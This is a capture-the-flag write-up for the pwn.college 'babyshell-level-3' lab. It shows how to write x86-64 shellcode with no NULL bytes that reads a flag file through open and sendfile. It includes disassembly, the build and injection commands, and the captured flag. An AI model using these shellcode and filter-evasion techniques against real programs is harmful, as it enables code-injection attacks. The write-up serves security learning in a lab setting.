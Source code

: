 # level3
## Description
Write and execute shellcode to read the flag, but your inputted data is filtered before execution.
## Solution
- The challenge file in `/challenge` is `babyshell-level-3`. Running it and giving it a sample input of `90` (the opcode of `nop`):
```
###
### Welcome to ./babyshell-level-3!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

Mapped 0x1000 bytes for shellcode at 0x1f970000!
Reading 0x1000 bytes from stdin.

90
Executing filter...

This challenge requires that your shellcode have no NULL bytes!

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x000000001f970000 | 39 30                                         | cmp dword ptr [rax], esi

Executing shellcode!

Segmentation fault
```
- We need to remove the null bytes from the shellcode. Disassembling the shellcode from [level1](./level1.md) using `objdump -d -M intel shellcode-elf`:
```

shellcode-elf:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:       48 bb 2f 66 6c 61 67    movabs rbx,0x67616c662f
  401007:       00 00 00 
  40100a:       53                      push   rbx
  40100b:       48 c7 c0 02 00 00 00    mov    rax,0x2
  401012:       48 89 e7                mov    rdi,rsp
  401015:       48 c7 c6 00 00 00 00    mov    rsi,0x0
  40101c:       0f 05                   syscall
  40101e:       48 c7 c7 01 00 00 00    mov    rdi,0x1
  401025:       48 89 c6                mov    rsi,rax
  401028:       48 c7 c2 00 00 00 00    mov    rdx,0x0
  40102f:       49 c7 c2 e8 03 00 00    mov    r10,0x3e8
  401036:       48 c7 c0 28 00 00 00    mov    rax,0x28
  40103d:       0f 05                   syscall
  40103f:       48 c7 c0 3c 00 00 00    mov    rax,0x3c
  401046:       0f 05                   syscall
```
- We see a bunch of null bytes in the shellcode. We can remove them step by step:
  - Instead of the `mov rbx, 0x00000067616c662f` instruction, we can use `mov ebx, 0x67616c66; shl rbx, 8; mov bl, 0x2f`, as shown in the slides.
  - Instead of `mov rax, 2`, we can use `xor rax, rax; mov al, 2`. This is because `xor rax, rax` will set `rax` to 0, and `mov al, 2` will set the least significant byte of `rax` to 2 without null bytes.
  - Instead of `mov rsi, 0`, we can use `xor rsi, rsi`. This is because `xor rsi, rsi` will set `rsi` to 0 without null bytes.
  - Instead of `mov rdi, 1`, we can use `xor rdi, rdi; inc rdi`. This is because `xor rdi, rdi` will set `rdi` to 0, and `inc rdi` will increment `rdi` to 1 without null bytes.
  - Instead of `mov rdx, 0`, we can use `xor rdx, rdx`. This is because `xor rdx, rdx` will set `rdx` to 0 without null bytes.
  - Instead of `mov r10, 1000`, we can use `xor r10, r10; add r10, 100`. This is because `xor r10, r10` will set `r10` to 0, and `add r10, 100` will add 100 to `r10` without null bytes. I'm choosing to decrease the number of bytes to read to 100 because 1000 bytes is too big and can't be added in a single instruction without null bytes (as far as I know). Besides, 100 bytes is enough to read the flag.
  - Instead of `mov rax, 40`, we can use `xor rax, rax; mov al, 40`. This is because `xor rax, rax` will set `rax` to 0, and `mov al, 40` will set the least significant byte of `rax` to 40 without null bytes.
  - Instead of `mov rax, 60`, we can use `xor rax, rax; mov al, 60`. This is because `xor rax, rax` will set `rax` to 0, and `mov al, 60` will set the least significant byte of `rax` to 60 without null bytes.
- The final shellcode is:
```assembly
.intel_syntax noprefix
    mov ebx, 0x67616c66; shl rbx, 8; mov bl, 0x2f	# push "/flag" filename
    push rbx
    xor rax, rax				                    # syscall number of open
    mov al, 2
    mov rdi, rsp				                    # point the first argument at stack (where we have "/flag")
    xor rsi, rsi				                    # NULL out the second argument (meaning, O_RDONLY)
    syscall				                            # trigger open("/flag", NULL)
    xor rdi, rdi				                    # first argument to sendfile is the file descriptor to output to (stdout)
    inc rdi
    mov rsi, rax				                    # second argument is the file descriptor returned by open
    xor rdx, rdx				                    # third argument is the number of bytes to skip from the input file
    xor r10, r10                                    # fourth argument is the number of bytes to transfer to the output file
    add r10, 100
    xor rax, rax				                    # syscall number of sendfile
    mov al, 40
    syscall				                            # trigger sendfile(1, fd, 0, 100)
    xor rax, rax				                    # syscall number of exit
    mov al, 60
    syscall				                            # trigger exit()
```
- I compiled it using the following command: `gcc -nostdlib -static shellcode.s -o shellcode-elf`.
- Running `objdump -d -M intel shellcode-elf`:
```

shellcode-elf:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:       bb 66 6c 61 67          mov    ebx,0x67616c66
  401005:       48 c1 e3 08             shl    rbx,0x8
  401009:       b3 2f                   mov    bl,0x2f
  40100b:       53                      push   rbx
  40100c:       48 31 c0                xor    rax,rax
  40100f:       b0 02                   mov    al,0x2
  401011:       48 89 e7                mov    rdi,rsp
  401014:       48 31 f6                xor    rsi,rsi
  401017:       0f 05                   syscall
  401019:       48 31 ff                xor    rdi,rdi
  40101c:       48 ff c7                inc    rdi
  40101f:       48 89 c6                mov    rsi,rax
  401022:       48 31 d2                xor    rdx,rdx
  401025:       4d 31 d2                xor    r10,r10
  401028:       49 83 c2 64             add    r10,0x64
  40102c:       48 31 c0                xor    rax,rax
  40102f:       b0 28                   mov    al,0x28
  401031:       0f 05                   syscall
  401033:       48 31 c0                xor    rax,rax
  401036:       b0 3c                   mov    al,0x3c
  401038:       0f 05                   syscall
```
- The shellcode doesn't contain any null bytes. I extracted the shellcode using the following command: `objcopy --dump-section .text=shellcode-raw shellcode-elf`.
- I sent the shellcode to the `stdin` of the challenge using the following command: `cat shellcode-raw /dev/stdin | /challenge/babyshell-level-3`. This gave me the flag:
```
###
### Welcome to /challenge/babyshell-level-3!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

Mapped 0x1000 bytes for shellcode at 0x1f970000!
Reading 0x1000 bytes from stdin.

Executing filter...

This challenge requires that your shellcode have no NULL bytes!

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x000000001f970000 | bb 66 6c 61 67                                | mov ebx, 0x67616c66
0x000000001f970005 | 48 c1 e3 08                                   | shl rbx, 8
0x000000001f970009 | b3 2f                                         | mov bl, 0x2f
0x000000001f97000b | 53                                            | push rbx
0x000000001f97000c | 48 31 c0                                      | xor rax, rax
0x000000001f97000f | b0 02                                         | mov al, 2
0x000000001f970011 | 48 89 e7                                      | mov rdi, rsp
0x000000001f970014 | 48 31 f6                                      | xor rsi, rsi
0x000000001f970017 | 0f 05                                         | syscall 
0x000000001f970019 | 48 31 ff                                      | xor rdi, rdi
0x000000001f97001c | 48 ff c7                                      | inc rdi
0x000000001f97001f | 48 89 c6                                      | mov rsi, rax
0x000000001f970022 | 48 31 d2                                      | xor rdx, rdx
0x000000001f970025 | 4d 31 d2                                      | xor r10, r10
0x000000001f970028 | 49 83 c2 64                                   | add r10, 0x64
0x000000001f97002c | 48 31 c0                                      | xor rax, rax
0x000000001f97002f | b0 28                                         | mov al, 0x28
0x000000001f970031 | 0f 05                                         | syscall 
0x000000001f970033 | 48 31 c0                                      | xor rax, rax
0x000000001f970036 | b0 3c                                         | mov al, 0x3c
0x000000001f970038 | 0f 05                                         | syscall 

Executing shellcode!

pwn.college{QWqg80YcXH-4VA7noBfsgKwj6Ze.0VOxIDL5QTO0czW}
```
- The flag is `pwn.college{QWqg80YcXH-4VA7noBfsgKwj6Ze.0VOxIDL5QTO0czW}`.
